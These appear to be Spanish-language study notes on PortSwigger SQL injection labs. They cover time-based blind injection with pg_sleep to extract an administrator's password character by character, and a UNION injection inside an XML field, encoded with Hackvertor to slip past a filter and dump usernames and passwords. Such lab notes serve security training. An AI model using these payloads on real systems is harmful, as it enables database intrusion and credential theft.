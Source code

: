 ```
'||(SELECT CASE WHEN SUBSTRING(password,1,1)='§a§' THEN pg_sleep(10) ELSE '' END FROM users WHERE username='administrator')||'
';SELECT CASE WHEN (username='administrator' AND SUBSTRING(password,1,1)='a') THEN pg_sleep(10) ELSE pg_sleep(0) END FROM users--
```
**NOTA: Para la enumeración ordena el filtrador por el tiempo de respuesta, seleccionalo, cambia de color y filtrar solo los coloreados, despues ordena por payload numerico y copia la columna con CTRL + Clic para copiar toda el parametro**

# SQL injection with filter bypass via XML encoding
En ocasciones existe el filtrado de las entradas por lo que se debe ofuscar las consultas, además de que las consultas pueden realizarse por otros medios como los archivos xml en lo lgar de un get o post
## Herramienta Hackvertor
La herramienta de hackvertor permite codificar texto durante el envio de la información mostrando el texto claro en el input pero enviando los datos ofuscados
### Ejemplo XML
```
Dentro de una aplicación de chequeo de productos por sucursal se envia los datos de las consultas pero se encuentra filtrada por lo que se debe ofuscar

<xml>
<productId>1</productId>
<storeId>11</storeId>
</xml>

<storeId>1+1</storeId> => Primero se valida que esten permitidas las operaciones
<storeId>1 UNION SELECT NULL</storeId> => Se intenta concatenar pero se identifica que esta filtrada

Con hackvertor se inyecta la consulta
<storeId><@hex_entities>1 UNION SELECT username || '~' || password FROM users<@/hex_entities></storeId>

Más ofuscaciones https://portswigger.net/web-security/essential-skills/obfuscating-attacks-using-encodings
```
# Final
Cheat Sheet
https://portswigger.net/web-security/sql-injection/cheat-sheet
